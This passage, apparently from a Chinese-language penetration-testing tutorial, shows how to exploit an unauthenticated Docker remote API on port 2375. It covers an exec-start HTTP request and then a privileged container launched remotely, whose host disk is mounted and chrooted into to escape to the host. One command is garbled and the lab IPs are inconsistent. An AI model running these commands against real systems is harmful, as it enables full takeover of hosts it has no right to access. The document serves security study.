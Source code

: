 ```
POST /exec/962fee39c29a2c9d5ea984b55673a7823aa06b6187eaf4be279f25af6cecad1f/start HTTP/1.1`
`Host: 192.168.198.138:2375`
`Content-Type: application/json`
`Content-Length: 36`
`{`
`"Detach":false,`
`"Tty":false`
`}
```

![image-20231008151350156](Docker逃逸.assets/image-20231008151350156.png)

然后发送就会得到结果，至此成功获得该docker主机的rce权限，但无法逃逸到宿主机中。

### **利用方法2 远程连接，新建特权容器，逃逸到宿主机中**

因为docker 有远程连接命令，由于2375端口暴露，可未授权访问，所以现在可以在我们的主机上通过远程方式连接doker ，然后以特权模式启动一个docker容器，从而达到逃逸到宿主机的情况

`docker -H tcp://192.168.198.138:2375 ps`
`docker -H docker -H tcp://192.168.241.142:2375 run -it --privileged alpine bin/sh`



进入容器后，使用fdisk -l命令查看磁盘文件`fdisk -l`



分区大小得知到宿主机的磁盘为/dev/dm-0，这里可以使用上面我们刚刚特权模式逃逸的命令将该磁盘挂载到目录中`mkdir /tide/`
`mount /dev/dm-0 /tide/`
`chroot /tide/`



成功逃逸到宿主机

## **挂载Docker.sock**
